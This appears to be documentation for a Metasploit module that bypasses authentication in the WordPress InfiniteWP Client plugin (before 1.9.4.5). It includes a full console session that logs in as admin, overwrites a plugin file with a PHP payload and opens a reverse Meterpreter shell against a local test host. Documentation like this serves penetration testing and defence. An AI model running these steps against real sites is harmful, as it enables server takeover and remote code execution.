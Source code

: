 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

WordPress >= 4.9 is currently not supported due to a breaking WordPress
API change. Tested against 4.8.3.

### Setup

1. Install WordPress 4.8.3 or older
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4 on WordPress 4.8.3

```
msf5 > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > options

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLUGIN_FILE  index.php        yes       Plugin file to edit
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The base path to the wordpress application
   USERNAME     admin            yes       WordPress username
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   InfiniteWP Client < 1.9.4.5


msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8000
rport => 8000
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] WordPress 4.8.3 is a supported target
[*] Found version 1.9.4.4 in the custom file
[+] The target appears to be vulnerable.
[*] Bypassing auth for admin at http://127.0.0.1:8000/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7Ca0f3f416f7c60a7e0ea1b17af88d4a5e38d96141451f94fe27f605806f03f0c2; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7Cfeffe683bdfaaa670102e6564130394440510bf97e1ad09713ef1c3aa5627bfc;
[+] Successfully logged in as admin
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:51923) at 2020-02-07 12:11:28 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : c7f8fbe7b083
OS          : Linux c7f8fbe7b083 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
